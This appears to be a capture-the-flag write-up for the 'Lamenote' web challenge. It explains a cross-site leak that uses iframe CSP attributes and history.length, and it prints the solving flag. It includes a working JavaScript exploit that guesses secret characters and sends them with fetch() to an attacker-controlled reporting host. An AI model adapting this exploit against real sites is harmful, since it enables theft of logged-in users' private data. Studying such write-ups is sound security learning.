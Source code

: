 ```yaml
---

layout: post

title: "Lamenote"

date: 2024-01-11 

tag-name: web xsleak history.length iframe-csp

---
```


# Lamenote

Author: sera

## Introduction

The challenge source code is not that big. All what it allows us to do is create a note in a iframe and <mark class="hltr-orange">search</mark> for them. Simply as that.

Here is the route responsible for searching a certain note
```python

@app.route("/search")
@check_request
def search():
	query = request.args.get("query", "")
	user = request.cookies.get("user", None)
	results = []
	notes_copy = copy.deepcopy(NOTES)
	for note in notes_copy.values():
		if note["owner"] == user and 
		(query in note["title"] or query in note["text"]):
			results.append(note)
		if len(results) >= 5:
			break
	if len(results) == 0:
		return "<!DOCTYPE html><body>No notes.</body>"
	if len(results) == 1:
		return render_note(results[0])
		
	return "<!DOCTYPE html><body>" + "".join("<a href='/note/" + note["id"] + "'>" + note["title"] + "</a> " for note in results) + "</body>"
```

Basically it takes a `query` parameter and our session token. Then it searches for all the note that contains our query both in the title and the text.
If there are no results, it renders a dummy html page. Otherwise if there is exactly one result it <mark class="hltr-orange">renders the note</mark> with the function `render_note`. 
In the end, if there are more than 1 result it shows us the list of notes.

As you may notice there is the decorator `@check_request` which is a custom decorator that checks if the `Sec-Fetch-Dest` is equal to `iframe`. Just for checking if we are making a request from an iframe.

```python
def render_note(note):
	data = "<!DOCTYPE html><body><b>" + note["title"] + "</b><br/>"+note["text"]
	if note["image"] is not None:
		g.image_url = note["image"]
		data += "<br/><img width='100%' src='" + note["image"] + "' crossorigin />"
	data += "</body>"
	return data
```

This is the `render_code` function which all it does is simply render our note with an image in it if it was provided during the creation.

Last but not least, there is one more decorator that makes the situation more difficult. The decorator is `@app.after_request` which applies the a <mark class="hltr-orange">strict csp</mark> on every request.


```python
host = re.compile("^[a-z0-9\.:]+$")
def csp(response):
	response.headers["Content-Security-Policy"] = "default-src 'none'; frame-src 'self';";
	if "image_url" in g:
		url = g.image_url
		parsed = urlparse(url)
		if host.match(parsed.netloc) and parsed.scheme in ["http", "https"]:
		response.headers["Content-Security-Policy"] += "img-src " + parsed.scheme + "://" + parsed.hostname + ";"
	response.headers["Cross-Origin-Opener-Policy"] = "same-origin"
	response.headers["Cross-Origin-Resource-Policy"] = "same-origin"
	response.headers["Cross-Origin-Embedder-Policy"] = "require-corp"
	return response
```

The only thing that stands out here (besides the `default-src` :cry:) is the <mark class="hltr-orange">dynamic</mark> `img-src` directive that gets added if a note is created with an image in it.

## How in the world i get the flag?

As you may imagine, there is a bot in this challenge that simulates a user. The bot simply creates a note with the flag <mark class="hltr-orange">inside the body</mark> and an image. Then it visits an arbitrary url provided by us.

There is no way to achieve XSS on the same origin of the challenge, since on the note creation is checked if our input contains a `<` both in the text, in the body and in the image url that we can provide.

This point us towards an xsleak. Since the admin visits our site, we can try with some browser-sorcery to leak the flag. The question is <mark class="hltr-orange">how?</mark>

I've not solved this challenge during the CTF, since my initial idea was trying to identify differences in the loading time of the `/search` page.
I was trying to load an iframe for every character in the alphabet, and look if there were any <mark class="hltr-orange">time differences</mark> between when the flag was present and when was not.

The main idea came from this [side-channel technique](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#sandboxed-frame-timing-attacks), and although on my local machine was working, in remote was <mark class="hltr-orange">not reliable</mark>. 
I've also thought about abuse the connection pool of chrome, but this was more a crazy idea than something feasible in this challenge.

It was clear, after a certain point, that i needed a way to detect the presence or not of the `img-src` directive, since that means the presence of an image, and in our case that we correctly <mark class="hltr-orange">guessed</mark> a char in the flag.

## Allow me to introduce you history.length

After a lot of hours were i cannot find a way to detect the csp directive the CTF ends. So i started talking with @sera and reversing the provided exploit. The idea was that if we load an iframe with the csp attribute set to `img-src 'none'` we can add the csp directive on the loaded resources.

Now, the <mark class="hltr-orange">magic begins</mark> , if the loaded resources sets the `img-src` directive the page won't load due to the fact that the browser show us an error telling that the csp that the page applies is not strong enough as stated with our supplied attribute or the `Allow-CSP-From` header is not set. Otherwise there will be no problem, since the `img-src` directive is not set and the `defaul-src` is set to `none`.

<mark class="hltr-orange">IMPORTANT</mark> : We should think of the `csp` attribute in the iframes as a <mark class="hltr-orange">minimum requirement</mark> for the target page that, if is not met, it will not render (thank you @sera for the explanation).

How we can abuse this to leak the flag? Well, @sera told me that if the page won't load showing us the `chrome-error://chromewebdata/` page the <mark class="hltr-orange">history</mark> object is not updated :boom:.

So we can use this behaviour right? Yes, but it's incomplete. We need also to <mark class="hltr-orange">redirect</mark> the iframe to itself to actually perform the state update of the `history` object (and so the length parameter) property, since otherwise it won't be updated.
Actually, to be more clear, the `history.length` property is global across all the sub-resources loaded into the page and it provides the number of entries in the history that were either changed by `history.pushState` or by regular navigations. This means that we can access it from our controlled top window.
This attack is really well documented [here](https://xsleaks.dev/docs/attacks/navigations/)

In the end the path for leaking the flag is the following:

- Creating an iframe for every character of the alphabet, pointing to the `/search` endpoint with the `query` parameter equal to the flag plus the character that we want to leak.
- After the load of the iframe, refresh it with the same source.
- Check the `history.length` and if it's equal as it was with the previous character, then this is the character that <mark class="hltr-orange">we want to leak</mark>, because the error page has not updated the `history.length` value. Otherwise just go on, updating the value that we are checking.

Here is my exploit

```javascript
const URL = "https://lamenote-web.chal.irisc.tf/search?query="
const alphabet = "_}abcdefghijklmnopqrstuvwxyz"
const REPORT="https://site"

//need to pass our URL has https://site/?search=flag-known
var FLAG = `${document.location.search.split("?")[1].split("=")[1]}`
const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

(async function(){
	async function leak(url){
		var iframe = document.createElement('iframe')
		iframe.sandbox="allow-same-origin"
		iframe.csp="img-src 'none'"
		iframe.src=url
		iframe.onload=()=>{
			setTimeout(()=>{
			iframe.onload=null
			iframe.src=url
			},100)
		}
		document.body.appendChild(iframe)
		await sleep(2000)
		let lengthHistory = window.history.length;
		return lengthHistory
	}

	//the "0" char is not in the flag since the flag format was known, 
	//and so we can use it as starting value
	var start = leak(URL+FLAG+"0") 
	//leaking 2 char at a time
	for(let y=0;y<2;y++){
		for(var c of alphabet){
			var lengthness = await leak(URL+FLAG+c)
			if(lengthness==start){
				FLAG=FLAG+c
				fetch(`${REPORT}/leaking?len=${lengthness}&char=${c}&flag=${FLAG}`)
				break
			}
		start=lengthness
		}
	}
})()

//irisctf{please_no_more_unintended_bugs}
```


We cannot create an "endless" exploit, since the `history.length` parameter as a maximum value of `50`, so i felt that 2 chars per round was a good choice. Otherwise the leak won't be reliable.

## Credits

I would like to thank @sera for dealing with me, and explaining everything that i needed to. 
Also i've found the challenge amazing






